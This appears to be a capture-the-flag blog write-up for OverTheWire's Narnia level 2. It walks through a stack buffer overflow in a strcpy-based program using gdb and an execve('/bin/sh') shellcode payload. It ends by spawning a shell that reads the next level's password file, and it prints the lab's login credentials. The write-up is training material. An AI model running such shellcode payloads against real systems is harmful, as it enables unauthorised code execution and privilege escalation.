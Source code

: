 ```yaml
---
layout: post
title:  "Narnia Level 2"
date:   2015-10-10 12:52
categories: narnia wargame pwnable overthewire
author: Leander
---
```


This is a solution guide to the Narnia2 Level at [overthewire](http://overthewire.org/wargames/narnia/) This write-up was originally created on 28 February 2015.
<!--break-->

First connect to the lab
<ul><li>ssh narnia2@narnia.labs.overthewire.org</li>
<li>Enter the following as the password nairiepecu</li></ul>

Change directories to the narnia games folder ``` cd /narnia ```. Next, let's examine how we get the password for the next level ``` less narnia2.c ```.

{% highlight c linenos %}
int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
{% endhighlight %}

This challenge appears to revolve around a simple buffer overflow. Notice that
the strcpy will take whatever argument is in argv and copy it to the buffer. Also
that there is no bounds checking - as a result it is possible to overwrite the 
return address following printf.

First, let's figure out how large the buffer is that we need to overflow. We know
buf is 128 bytes, so let's setup that first.

<figure class="highlight"><pre><code class="language-text" data-lang="text">|----------------|
|    buf is      |
|    128 bytes   |
|----------------|
|    12 bytes    |
|   of garbage   |
|----------------|
|    return 0    |
|----------------|</code></pre></figure>

So lets test it out, but first lets find a good breakpoint in gdb. Startup narnia2 inside gdb with the following command: ```  gdb ./narnia2 ``` and then:

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) disass main
   0x080484b0 <+83>:	movl   $0x8048574,(%esp)
   0x080484b7 <+90>:	call   0x8048310 <printf@plt>
   0x080484bc <+95>:	mov    $0x0,%eax
   0x080484c1 <+100>:	leave  
   0x080484c2 <+101>:	ret    
End of assembler dump.</code></pre></figure>

Since we are attempting to target the last ret, lets set a breakpoint 
at the leave instruction with the following gdb command: ``` break *0x080484c1 ```

Now we are ready to experiment! Now run a string that is a total of 140 bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x140'`
Starting program: /games/narnia/narnia2 `perl -e 'print "A"x140'`
Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xf7e3ba00 in __libc_start_main () from /lib32/libc.so.6</code></pre></figure>	

Okay, now that we know we crash let's verify that we can take control of the program.
We can test this by adding 4 known bytes to see if we crash at the address we have 
chosen.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x140 . "\xef\xbe\xad\xde"'`
Starting program: /games/narnia/narnia2 `perl -e 'print "A"x140 . "\xef\xbe\xad\xde"'`
Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()</code></pre></figure>

Now we know we can take control of the program! so now we have to pick a good address
that we want to return to. A good way to do this is to examine esp and subtract our
buffer length so see where our shellcode can start.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) x/40xw $esp-144
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd610:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd620:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd630:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd640:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea</code></pre></figure>

So now we know the earliest starting address is 0xffffd5c0. Next we should craft our exploit. The first step is to grab some shellcode from [shell storm](http://shell-storm.org/shellcode/files/shellcode-811.php). Next, let's craft our exploit together with the shellcode.

<figure class="highlight"><pre><code class="language-text" data-lang="text">`perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xec\xd5\xff\xff"'`</code></pre></figure>

Notice that I have added some padding, this is mainly to help my exploit so that I don't have to be as precise and it also helps since the environment variables change when I exit the debugger. Now, we can try out exploit, but first let's see what it looks like in the stack so that we can compare against our previous test.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xef\xbe\xad\xde"'`

Starting program: /games/narnia/narnia2 `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xef\xbe\xad\xde"'`

Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) x/40xw $esp-144
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x6850c031	0x68732f2f
0xffffd600:	0x69622f68	0x89e3896e	0xb0c289c1	0x3180cd0b
0xffffd610:	0x80cd40c0	0x42424242	0x42424242	0x42424242
0xffffd620:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd630:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd640:	0x42424242	0x42424242	0x42424242	0xdeadbeef
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea</code></pre></figure>

Notice that we now have shellcode that is interwoven between our "A"s and "B"s to assist 
with accounting for changes once we leave the debugger. So now we can pick a return address
somewhere inside the "A"s. I am going to select an address in the middle, 0xffffd5e0.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xe0\xd5\xff\xff"'`

Starting program: /games/narnia/narnia2 `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xe0\xd5\xff\xff"'`

process 23943 is executing new program: /bin/dash
$</code></pre></figure>

Great it worked! Now, let's try it outside the debugger.
	
<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia2@melinda:/narnia$ ./narnia2 `perl -e 'print "A"x56 . \
"\x31\xc0\x50\x68\x2f\x2f\x73" . \
"\x68\x68\x2f\x62\x69\x6e\x89" . \
"\xe3\x89\xc1\x89\xc2\xb0\x0b" . \
"\xcd\x80\x31\xc0\x40\xcd\x80" . \ 
"B"x56 . "\xe0\xd5\xff\xff"'`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
$ </code></pre></figure>


BINGO, it worked and we didn't even have to worry about our address because of the padding! 
Level 3 password is ``` vaequeezee ```
